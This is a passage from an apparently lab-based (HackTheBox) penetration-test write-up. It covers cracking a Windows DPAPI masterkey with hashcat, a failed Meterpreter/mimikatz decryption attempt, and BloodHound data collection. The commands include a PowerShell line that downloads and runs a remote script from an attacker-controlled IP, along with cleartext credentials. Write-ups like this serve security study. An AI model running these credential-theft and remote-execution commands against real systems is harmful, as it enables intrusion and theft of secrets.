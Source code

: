 We can also try to brute force the DPAPI masterkey with hashcat:

```
root@kali:$ /usr/share/john/DPAPImk2john.py -S S-1-5-21-4124311166-4116374192-336467615-500 -mk ./87790867-a883-4a2d-a467-019c315e1104 -c local |tee dpapi_mk2
root@kali:$DPAPImk$2*1*S-1-5-21-4124311166-4116374192-336467615-500*aes256*sha512*8000*c41ab656df74c2a51cb872fa5a5be7fc*288*bac9efb95aeb3796cabdb684ec758f5d32b0a9c564eb6f32b9a8de9c75d8ac677b6ce2b6da49875e2c04629a23260e7ac849955cc17aed002e3d1a0154ce86cb8faec38312fa7d65472dcdba7e4e79688558f3a185c4f5fbb8e09a24f3b9d48dbbe802eef159ca62a394354b15beb940eadeb014f82a09cb2e92eed7276facbb50c01177f5db0b76ed3f31fb877e3ec5
Cmd > ./hashcat64.exe -m 15900 -a 0 -r nsa-rules/dive.rule hashes/dpapi_mk2 seclists/Passwords/*
```

In theory this can also be done with meterpreter's kiwi extension but when I used it, the meterpreter just kept dying (no matter if I runned it as admin or localsystem):

```
meterpreter > getsystem
meterpreter > execute -if cmd.exe
C:\Users\Administrator\Documents>mklink /d C:\VSS \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
meterpreter > load kiwi
meterpreter > kiwi_cmd '"cd \vss\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-4124311166-4116374192-336467615-500\"'
meterpreter > kiwi_cmd '"dpapi::masterkey /in:87790867-a883-4a2d-a467-019c315e1104 /sid:S-1-5-21-4124311166-4116374192-336467615-500 /password:./*40ra26AZ"'
[-] Error running command kiwi_cmd: Rex::TimeoutError Operation timed out.
[*] 10.13.38.17 - Meterpreter session 4 closed.  Reason: Died
```

### Refs

* [Operational Guidance for Offensive User DPAPI Abuse – harmj0y](https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)
* [Reading DPAPI Encrypted Secrets with Mimikatz and C++ - Red Teaming Experiments](https://ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++)
* [«Секретики» DPAPI или DPAPI для пентестеров / Хабр](https://habr.com/ru/post/434514/)
* [HackTheBox - Access](https://www.youtube.com/watch?v=Rr6Oxrj2IjU&t=2746)

# 5. Gateway

## Collecting Data for Bloodhound

Collect BloodHound data in 3 different ways (just for fun).

1\. `SharpHound.ps1` with explicit LDAP authentication (session as local administrator):

```
PS > iex(new-object net.webclient).downloadstring("http://10.14.14.37/SharpHound.ps1")
PS > Invoke-Bloodhound -CollectionMethod All -Domain htb.local -LdapUser 'test-svc' -LdapPassword 'T3st-S3v!ce-F0r-Pr0d'
```

2\. `SharpHound.ps1` with implicit LDAP authentication (session as PtH via kiwi with `test-svc` NTHash which I generated with python (but also you can do it [online](https://www.browserling.com/tools/ntlm-hash))):

